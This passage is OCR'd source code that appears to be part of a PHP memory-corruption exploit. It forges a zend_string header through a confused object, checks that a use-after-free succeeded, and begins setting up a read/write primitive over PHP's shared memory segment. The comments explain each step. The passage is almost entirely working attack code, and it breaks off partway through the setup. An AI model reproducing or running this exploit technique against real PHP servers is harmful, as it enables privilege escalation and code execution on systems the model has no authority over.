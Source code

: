             $x->y = 0x00;
            # zend_string.len
            $x->d = 0x100;
            # zend_string.val[0-4]
            $x->h = 0x13121110;

            # Verify UAF was successful
            # We modified stuff via $x; they should be visible by $this->abc, since
            # they are at the same memory location.
            if(!(
                strlen($this->abc) === $x->d &&
                $this->abc[0] == "\x10" &&
                $this->abc[1] == "\x11" &&
                $this->abc[2] == "\x12" &&
                $this->abc[3] == "\x13"
            ))
            {
                o('UAF failed, exiting.');
                exit();
            }
            o('UAF successful.');
            o('');

            # Give us some room
            # I: As indicated before, just unset a lot of stuff so that next allocs
            # don't break our fragile UAFd structure.
            unset($room);

            #
            # Setup the R/W primitive
            #

            # We control $abc's internal zend_string structure, therefore we can R/W
            # the shared memory block (SHM), but for that we need to know the
            # position of $abc in memory
            # I: We know the absolute position of the SHM, so we need to need abc's
            # as well, otherwise we cannot compute the offset
